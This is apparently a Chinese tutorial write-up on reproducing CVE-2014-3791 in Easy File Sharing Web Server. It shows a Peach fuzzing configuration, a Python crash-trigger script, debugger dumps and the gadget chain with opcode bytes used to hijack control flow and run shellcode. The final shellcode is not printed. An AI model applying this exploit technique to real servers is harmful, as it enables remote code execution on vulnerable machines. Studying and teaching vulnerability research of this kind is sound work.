








# CVE [2014-3791](https://www.exploit-db.com/exploits/33352)

## fuzzed by peach

&nbsp;&nbsp;&nbsp;&nbsp;<font size=2>第一次复现出了一个cve，虽然是很简单的栈溢出漏洞，但是好歹也是从fuzz到shellcode一步一步实现的。我使用了peach fuzz，初学建议先看一下peach的[官网](https://www.peach.tech/)和[文档](http://community.peachfuzzer.com/v3/TutorialDumbFuzzing.html)，以及刚看完文档了解了基本语法之后需要一篇[入门的例子](https://cartermgj.github.io/2017/06/07/fuzz-EFS/)（[其转载自from-fuzzing-to-0-day](https://blog.techorganic.com/2014/05/14/from-fuzzing-to-0-day/)），我这篇复现也是根据前面这个例子搬运讲解的。</font></br>

&nbsp;&nbsp;&nbsp;&nbsp;<font size=2>铺垫完了，接下来就正式开始一步步讲解了，首先我们打开安装包安装[漏洞软件](https://www.exploit-db.com/apps/248374bd2837028036540ea1ad62d55b-efssetup.exe)，然后启动之，再用socksniff抓个包（为什么不用Wireshark？因为这是本地环回包，我的win7没有这个接口）。随意输入账号密码后可以看到包如下：</font></br>





&nbsp;&nbsp;&nbsp;&nbsp;<font size=2>我们的目的就是fuzz这个账号密码查看是否存在漏洞，编写如下pit文件，信息都可以从包里抓取，我们要fuzz的账号密码就用一个mutable=true或者省略来让peach进行生成并测试。如果看懂了官方文档的话再来看这个pit应该是看得懂的，不懂的话下面还有一些讲解：</font></br>

```xml
<?xml version="1.0" encoding="utf-8"?>
<Peach xmlns="http://peachfuzzer.com/2012/Peach" xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
    xsi:schemaLocation="http://peachfuzzer.com/2012/Peach ../peach.xsd">

    <DataModel name="DataVfolder">
            <String value="GET /vfolder.ghp" mutable="false" token="true"/>                   
            <String value=" HTTP/1.1" mutable="false" token="true"/>
            <String value="\r\n" mutable="false" token="true"/>

            <String value="Accept: " mutable="false" token="true"/>
            <String value="image/gif, image/x-xbitmap, image/jpeg, image/pjpeg, application/x-shockwave-flash, application/xaml+xml, application/x-ms-xbap, application/x-ms-application, */*" mutable="false" token="true"/>   
            <String value="\r\n" mutable="false" token="true"/>   

            <String value="Accept-Language: " mutable="false" token="true"/>
            <String value="zh-cn" mutable="false" token="true"/>   
            <String value="\r\n" mutable="false" token="true"/>

            <String value="Accept-Encoding: " mutable="false" token="true"/>
            <String value="gzip, deflate" mutable="false" token="true"/>   
            <String value="\r\n" mutable="false" token="true"/>

            <String value="If-Modified-Since: " mutable="false" token="true" />
            <String value="Fri, 11 May 2012 10:11:48 GMT; length=12447" mutable="false" token="true" />
            <String value="\r\n" mutable="false" token="true"/>

            <String value="User-Agent: " mutable="false" token="true"/>
            <String value="Mozilla/4.0 (compatible; MSIE 6.0; Windows NT 5.1; SV1; .NET4.0C; .NET4.0E)" mutable="false" token="true"/>   
            <String value="\r\n" mutable="false" token="true"/>

            <String value="Host: ##HOST##:##PORT##" mutable="false" token="true"/>
            <String value="\r\n" mutable="false" token="true"/>

            <String value="Conection: " mutable="false" token="true"/>
            <String value="Keep-Alive" mutable="false" token="true"/>   
            <String value="\r\n" mutable="false" token="true"/>

            <String value="Cookie: " mutable="false" token="true"/>
            <String value="SESSIONID=2626; " mutable="false" token="true"/>

            <!-- fuzz UserID -->
            <String value="UserID=" mutable="false" token="true"/>
            <String value="" />
            <String value="; " mutable="false" token="true"/>

            <!-- fuzz PassWD -->
            <String value="PassWD=" mutable="false" token="true"/>
            <String value="" />
            <String value="; " mutable="false" token="true"/>               
            <String value="\r\n" mutable="false" token="true"/>
            <String value="\r\n" mutable="false" token="true"/>
    </DataModel>   

    <DataModel name="DataResponse">
        <!-- server reply, we don't care -->
        <String value="" />
    </DataModel>

    <StateModel name="StateVfolder" initialState="Initial">
        <State name="Initial">
            <Action type="output">
                <DataModel ref="DataVfolder"/>
            </Action>
            <Action type="input">
                <DataModel ref="DataResponse"/>
            </Action>   
        </State>
    </StateModel>   

    <Agent name="LocalAgent">
        <Monitor class="WindowsDebugger">
            <Param name="CommandLine" value="C:\EFS Software\Easy File Sharing Web Server\fsws.exe"/>	
        </Monitor>

        <!-- close the popup window asking us to buy the software before running tests -->
	
        <Monitor class="PopupWatcher">
            <Param name="WindowNames" value="Registration - unregistered"/>
        </Monitor>
	
    </Agent>

    <Test name="Default">
        <Agent ref="LocalAgent"/>
        <StateModel ref="StateVfolder"/>
        <Publisher class="TcpClient">
            <Param name="Host" value="##HOST##"/>
            <Param name="Port" value="##PORT##"/>
        </Publisher>

        <Logger class="File">
            <!-- save crash information in the Logs directory -->
            <Param name="Path" value="C:\Users\fanda\Downloads\fuzz"/>
        </Logger>

        <!-- use a finite number of test cases that test UserID first, followed by PassWD -->
        <Strategy class="Sequential" />

    </Test>   
</Peach>
```

- \#\#HOST\#\#和\#\#PORT\#\#定义了外部输入的变量，由peach启动时外部提供。
- DataModel可以看成是一个结构体，String就是结构体里的变量，可以是固定的，也可以是mutable（可变的）——peach生成并用之进行测试。
- StateModel重建了逻辑的基本状态（官方文档翻译），其实就是定义了fuzzer的逻辑，接受输入输出，上述pit文件就是将第一个结构体（数据包）作为输入，对软件的输出不予理睬，所以第二个结构体为空。
- Agent结构则用monitor（监视器）来采取一些行为，比如检测错误，调用调试器等；其子结构Monitor中的class=“WindowsDebugger”意味执行这个路径重新开启被测试软件（检测到错误崩溃的时候），class="PopupWatcher"则意为检测到窗口名为value里的值时就关闭掉（可以用这个关闭烦人的确认键，前提是窗口名最好是独一无二的不然容易误关）。
- Test将上述结构体联结起来，可以将Test理解为类似主函数或入口函数之类的东西，用ref引用上述定义的结构之后peach就明白如何fuzz了；Publisher在这里接收命令行参数；Logger顾名思义；Strategy就是fuzz策略，可以是随机（Random）的，也可以是顺序（Sequential）的（mutable变量按声明的顺序进行生成测试）。

&nbsp;&nbsp;&nbsp;&nbsp;<font size=2>好不容易解释完了peach语法，接下来就开始fuzz吧，在这里用以下命令启动：peach -DHOST=<ip> -DPORT=<port> <xml file>。我这里就是peach -DHOST=10.211.55.5 -DPORT=80 efs.xml。</font></br>



&nbsp;&nbsp;&nbsp;&nbsp;<font size=2>抓个包看看：</font></br>



&nbsp;&nbsp;&nbsp;&nbsp;<font size=2>可以看到数据包里的UserID被填充了各种畸形数据，软件重启了若干次，一段时间过后可以看到log文件夹里有faults，进入可以看到exploitable文件夹，里面就有crash文件和数据包文件。我们来看看：</font></br>





&nbsp;&nbsp;&nbsp;&nbsp;<font size=2>这不就是一个栈溢出漏洞吗？edx直接被覆盖为了fuzzer的畸形数据，这就意味着我们可以很轻易的控制eip劫持程序。接下来该用调试器分析并编写exploit了，在0x045c8c2处下断后用若干次F9直到等待我们的输入，用python socket编程输入一串“A”查看：</font></br>

```python
import socket
import struct
target = "10.211.55.5"
port = 80
payload = 'A'*100
buf = (
"GET /vfolder.ghp HTTP/1.1\r\n"
"Accept: image/gif, image/x-xbitmap, image/jpeg, image/pjpeg, application/x-shockwave-flash, application/xaml+xml, application/x-ms-xbap, application/x-ms-application, */*\r\n"
"Accept-Language: zh-cn\r\n"
"Accept-Encoding: gzip, deflate\r\n"
"If-Modified-Since: Fri, 11 May 2012 10:11:48 GMT; length=12447\r\n"
"User-Agent: Mozilla/4.0 (compatible; MSIE 6.0; Windows NT 5.1; SV1; .NET4.0C; .NET4.0E)\r\n"
"Host: 192.168.222.131:80\r\n"
"Conection: Keep-Alive\r\n"
"Cookie: SESSIONID=2626; UserID=" + payload + "; PassWD=; \r\n\r\n"
)
s = socket.socket(socket.AF_INET,socket.SOCK_STREAM)
s.connect((target,port))
s.send(buf.encode("latin-1"))
s.close() 
```

&nbsp;&nbsp;&nbsp;&nbsp;<font size=2>运行完了脚本之后调试器又中断在了我们的断点处，这时候应该是再F9执行三次就可以看到edx被0x41414141覆盖：</font></br>



&nbsp;&nbsp;&nbsp;&nbsp;<font size=2>代码如下：</font></br>

```assembly
EAX 00000000
ECX 043B68D0 ASCII "AAAAAAAAAAAAAAAAAAAA"
EDX 41414141
EBX 00000000
ESP 043B6808
EBP FFFFFFFF
ESI 043B68C0 ASCII "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA"
EDI 043B68D0 ASCII "AAAAAAAAAAAAAAAAAAAA"
EIP 0045C8C2 fsws.0045C8C2

0045C8B7  |.  8B56 10       mov     edx, dword ptr [esi+10]
0045C8BA  |.  57            push    edi
0045C8BB  |.  8D7E 10       lea     edi, dword ptr [esi+10]
0045C8BE  |.  53            push    ebx
0045C8BF  |.  53            push    ebx
0045C8C0  |.  8BCF          mov     ecx, edi
0045C8C2  |.  FF52 28       call    dword ptr [edx+28]

043B6874   00000000
043B6878   00000000
043B687C   00000001
043B6880   41414141
043B6884   41414141
043B6888   41414141
043B688C   41414141
043B6890   41414141
043B6894   41414141
043B6898   41414141
043B689C   41414141
043B68A0   41414141
043B68A4   41414141
043B68A8   41414141
043B68AC   41414141
043B68B0   41414141
043B68B4   41414141
043B68B8   41414141
043B68BC   41414141
043B68C0   41414141
043B68C4   41414141
043B68C8   41414141
043B68CC   41414141
043B68D0   41414141
043B68D4   41414141
043B68D8   41414141
043B68DC   41414141
043B68E0   41414141
043B68E4   706F4300
043B68E8   67697279
043B68EC   475F7468
043B68F0   6E6F4875
043B68F4   00000067
043B68F8   00000000

```

&nbsp;&nbsp;&nbsp;&nbsp;<font size=2>也就是说会把esi偏移0x10处也就是0x43B68D0的数据放入edx然后调用edx+0x28这个地址。也就是说如果我们在0x43B68D0处放入0x43B68D4-0x28，那么程序就会去call 0x43B68D4，这时候我们在0x43B68D4里放上call esi这个gadget的地址（ollydbg找gadget可以用alt+E后用search for->all commands），那么就会有call 0x43B68C0的效果，在这里我们继续放gadget跳至shellcode，gadget可以是“sub esi-0x28   jmp esi”，为什么不直接"add esi,0x28"是因为这样数据中会有"\x00"，这就像是EOF会让软件以为到了结尾中断接收。最终gadget的机器码就是"\x81\xee\xe8\xff\xff\xff" + "\xff\xe6"。shellcode就用了弹计算器。</font></br>

&nbsp;&nbsp;&nbsp;&nbsp;<font size=2>我的win7有aslr，所以在调试时手动把0x43B68D0处的数据根据实际情况调整了一下之后就可以了。最终效果如下：</font></br>

